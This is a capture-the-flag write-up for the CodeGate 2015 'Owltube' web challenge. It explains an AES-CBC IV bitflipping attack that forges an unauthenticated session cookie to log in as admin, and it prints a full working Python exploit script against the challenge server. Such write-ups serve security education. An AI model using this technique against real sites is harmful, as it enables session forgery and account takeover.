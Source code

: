 # CodeGate General (preliminaries) CTF 2015: Owltube

**Category:** Web
**Points:** 400
**Description:** 

> You're welcome to betatest our new social media site, it's going to be the next big thing.
> 
> Server : http://54.64.164.100:5555/
> Script : [http://binary.grayhash.com/2a0182588cf5550cebb49876d94c7a2f/index.py](index.py)
> 
> - option : please check the notice board.

## Write-up

The challenge consists of a python Tornado web application using mongodb and allows users to register, login and add links to youtube videos.
User sessions are managed through an authentication cookie that is constructed as follows:

>```python
>def set_cookie(resp, cookie):
>	cookie = json.dumps(cookie)
>
>	iv = Random.new().read(BS)
>	aes = AES.new(SECRET_KEY, AES.MODE_CBC, iv)
>	cookie = pad(cookie)
>	cookie = iv + aes.encrypt(cookie)
>	cookie = cookie.encode("base64")
>	cookie = cookie.replace("\n", "")
>
>	resp.set_cookie("auth", cookie)
>```

The cookie value passed to set_cookie is set, upon successful login, to a json representation of the following dictionary:

>```python
>	u = {}
>	u["u"] = request.form.get("user")
>	u["pw"] = request.form.get("pw")
>```

The vulnerability here resides in the fact that the cookie is encrypted using AES in Cipher Block Chaining (CBC) mode. In CBC mode, each block of plaintext is XORed to the previous block of ciphertext before being encrypted, using a random IV for the first block of plaintext. Conversely, upon decryption, each block of ciphertext is decrypted and subsequently XORed to the previous block of ciphertext (or the IV in case of the first block) to yield the final decrypted block.

![alt cbc_decryption](cbc_decryption.png)

Since CBC mode comes with no authentication mechanism (eg. a MAC, signature, etc.) the application has no means to detect if the encrypted data it processes has been altered or not by a malicious client. This allows us to perform a bitflipping attack on our encrypted cookie. Flipping a byte in a ciphertext block will corrupt the corresponding decrypted block but produce a corresponding flip in the byte at the same block-offset within the subsequent block. Hence, given a known plaintext byte at offset i in the plaintext, we can alter the byte at offset i in the final decryption result by flipping byte (i-block_size) of the ciphertext (or byte i of the IV if i < block_size).

Since the decryption result must always be a valid json string, we cannot afford corrupting the ciphertext itself and hence are restricted to flipping the first 16 bytes of the plaintext by corrupting the IV only. We can set bytes at offsets 0..15 in the decryption result to our target text by corrupting the IV in the following manner:

>``python
>iv[i] = chr(ord(known_plaintext[i]) ^ ord(iv[i]) ^ ord(target_text[i]))
>```

This, of course, requires known plaintext for at least the first 16 bytes. If we register a user, we know the full plaintext of the cookie:

>```python
>{"u": "username", "pw": "password"}
>```

In the application source we can see the following code for the index:

>```python
>def index():
>	if is_logged_in():
>		videos = []
>		for i, vid in enumerate(g.db.videos.find({"user": g.user["u"]})):
>```

We will try to construct a cookie with a plaintext that allows us to achieve successful login as the user "admin" (which we guessed to be the target account for flag retrieval, since it was the only username always taken while the rest of the usernames were periodically wiped from the database). If we register a user with username "x" and password "admin", our known plaintext will be:

>```python
>{"u": "x", "pw": "admin"}
>```

We want to flip this to the following in order to eliminate the "pw" field so we can achieve successfull login:

>```python
>{"u":  "x", "u": "admin"}
>```


The [final exploit](solution/owltube_exploit.py) is as follows:

>```python
>#!/usr/bin/python
>#
># CODEGATE General CTF 2015
># OWLTUBE (WEB/400) Exploit
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>import requests
>from Crypto.Cipher import AES
>
>BS = AES.block_size
>
>class exploit:
>	def __init__(self):
>		self.r = None
>		self.cookies = None
>		return
>
>	def getAuthcookie(self):
>		if(self.cookies):
>			return self.cookies['auth']
>		else:
>			return None
>
>	def login(self, url, username, password):
>		payload = {'user': username, 'pw': password}
>		self.r = requests.post(url + '/login', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def register(self, url, username, password, email):
>		payload = {'user': username, 'pw': password, 'email': email}
>		self.r = requests.post(url + '/register', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def visit(self, url, authcookie):
>		cookie = {'auth': authcookie}
>		self.r = requests.get(url, cookies=cookie)
>		return (self.r.text, self.r.status_code)
>
>email = "x@x"
>username = "x"
>password = "admin"
>
>url = 'http://54.64.164.100:5555'
>
>sploit = exploit()
>
>sploit.register(url, username, password, email)
>sploit.login(url, username, password)
>
>cookie = sploit.getAuthcookie()
>(iv, e) = (cookie.decode('base64')[:BS], cookie.decode('base64')[BS:])
>
>print "[+]Cookie: [%s]" % cookie
>print "[+]IV: [%s]" % iv.encode('hex')
>print "[+]Ciphertext: [%s]" % e.encode('hex')
>
>plaintext = '{"u": "x", "pw": "admin"}'
>targetext = '{"u":  "x", "u": "admin"}'
>
>iv2 = list(iv)
>for i in range(0, 16):
>	iv2[i] = chr(ord(plaintext[i]) ^ ord(iv2[i]) ^ ord(targetext[i]))
>
>iv2 = "".join(iv2)
>
>cookie = (iv2 + e).encode("base64").replace("\n", "")
>
>(t, s) = sploit.visit(url, cookie)
>
>print t
>```